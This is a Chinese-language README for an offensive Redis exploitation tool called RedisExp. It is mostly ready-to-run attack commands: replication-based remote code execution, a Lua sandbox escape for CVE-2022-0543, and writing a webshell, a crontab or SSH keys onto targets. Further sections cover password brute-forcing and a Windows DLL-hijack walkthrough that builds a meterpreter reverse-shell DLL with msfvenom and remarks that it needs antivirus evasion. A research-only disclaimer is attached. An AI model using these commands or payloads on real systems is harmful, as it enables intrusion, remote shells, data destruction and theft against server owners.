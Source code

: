 ## Redis 漏洞利用工具

快捷使用：`RedisExp`

```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

2022/05/23 23:36:54 [+]  -h 靓仔查看下帮助吧
Example:
主从复制命令执行:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console

Linux:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -so exp.so
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console -so exp.so

主从复制文件上传:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload

主动关闭主从复制:
RedisExp.exe -rhost 192.168.211.131 -slaveof

Lua沙盒绕过命令执行 CVE-2022-0543:
RedisExp.exe -rhost 192.168.211.131 -lua -console

备份写 Webshell:
RedisExp.exe -rhost 192.168.211.131 -shell

Linux 写计划任务:
RedisExp.exe -rhost 192.168.211.131 -crontab

Linux 写 SSH 公钥:
RedisExp.exe -rhost 192.168.211.131 -ssh

爆破 Redis 密码:
RedisExp.exe -rhost 192.168.211.131 -brute -pwdf ../pass.txt

执行 Redis 命令:
RedisExp.exe -rhost 192.168.211.131 -cli

导出 Redis 数据:
RedisExp.exe -rhost 192.168.211.131 -dump

导入 Redis 数据:
RedisExp.exe -rhost 192.168.211.131 -import
```

```
cmd
├── crontab.txt    默认写入的Linux下的crontab定时任务文件，用前需要修改
├── exp.dll        默认导入的Windows Redis模块
├── exp.so         导入的Linux Redis模块
├── main.go        编译攻击主程序
├── out.json       导出导入的 Redis 数据
├── pass.txt       爆破字典
├── shell.txt      默认写入的 Webshell 文件，用前需要修改
└── ssh.txt        默认写入的Linux下的ssh公钥文件，用前需要修改

```



### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

------

### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------

### 暂时解决的方法

1、默认导出 db0 的 Redis 数据，其他的不会导出，如果其他db有数据也会被清空。

2、利用主从复制漏洞

3、导入 Redis 数据

> **主从复制默认调用了 导出 Redis 数据  和 导入数据，也可以主动导出和导入。**



### 主从复制漏洞

#### 命令执行

- 默认 windows 加载的是 `exp.dll`
- 默认是非交互式 shell

````
Windows:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console

Linux:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -so exp.so
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console -so exp.so
````

![](images/slave_Rce.png)

#### 文件上传

```
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload
```

![](images/slave_Upload.png)

#### Windows 劫持 dbghelp.dll

https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/#toc-heading-22

1、使用 msf 生成 dll ，（cs 需要自己写一个调用 rundll32 .exe的dll，不能直接使用）

```
# 64 位

msfvenom -p windows/x64/meterpreter/reverse_tcp -ax64 -f dll LHOST=192.168.211.130 LPORT=5555 > 64.dll

# 32 位
msfvenom -p windows/meterpreter/reverse_tcp -ax86 -f dll LHOST=ip LPORT=端口 > reverse_32bit.dll
```

2、生成项目DLL后使用Koppeling项目中的Python3脚本来链接到转发DLL: https://github.com/monoxgas/Koppeling

```
python -m pip install pefile

python .\PyClone.py 64.dll C:\windows\system32\dbghelp.dll -o dbghelp.dll
```

3、利用主从复制上传制作好的  dbghelp.dll

```
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dbghelp.dll -lfile dbghelp.dll -upload
```

4、执行 bgsave 成功上线

```
RedisExp.exe -rhost 192.168.211.134 -cli

bgsave
```

5、dll 需要免杀，好像不太稳定，自行在本地测试再利用。



### RDB备份文件利用

#### 写 Webshell

```
RedisExp.exe -rhost 192.168.211.131 -shell
```

![](images/webshell.png)

#### Linux写计划任务

```
RedisExp.exe -rhost 192.168.211.133 -crontab
```

![](images/crontab.png)

#### Linux写SSH公钥

```
RedisExp.exe -rhost 192.168.211.133 -ssh
```

![](images/ssh.png)

### Lua沙盒绕过命令执行 CVE-2022-0543

```
RedisExp.exe -rhost 192.168.211.130 -lua -console
```

![](images/lua.png)


### 爆破 Redis 密码

```
RedisExp.exe -rhost 192.168.211.131 -brute -pwdf pass.txt
```

![](images/pass.png)


### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile
- https://github.com/toalaska/redis_tool
- https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/

 

